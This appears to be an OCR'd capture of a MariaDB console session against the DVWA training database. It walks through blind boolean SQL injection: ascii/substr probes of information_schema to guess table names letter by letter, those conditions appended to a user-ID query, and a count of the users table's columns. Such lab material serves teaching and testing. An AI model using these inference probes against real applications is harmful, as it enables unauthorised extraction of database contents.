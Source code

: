 ```bash
| substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1) |
+------------------------------------------------------------------------------------------------------+
| g                                                                                                    |
+------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1));
+-------------------------------------------------------------------------------------------------------------+
| ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) |
+-------------------------------------------------------------------------------------------------------------+
|                                                                                                         103 |
+-------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> select ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100;
+-------------------------------------------------------------------------------------------------------------------+
| ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100 |
+-------------------------------------------------------------------------------------------------------------------+
|                                                                                                                 1 |
+-------------------------------------------------------------------------------------------------------------------+
1 row in set (0.000 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id =1 and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 100;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.002 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id =1 and ascii(substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1)) > 105;
Empty set (0.000 sec)

MariaDB [dvwa]> select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users';
+--------------------+
| count(column_name) |
+--------------------+
|                  8 |
+--------------------+
1 row in set (0.001 sec)

MariaDB [dvwa]> select first_name, last_name FROM users WHERE user_id = 1 and (select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')>10;
Empty set (0.005 sec)
```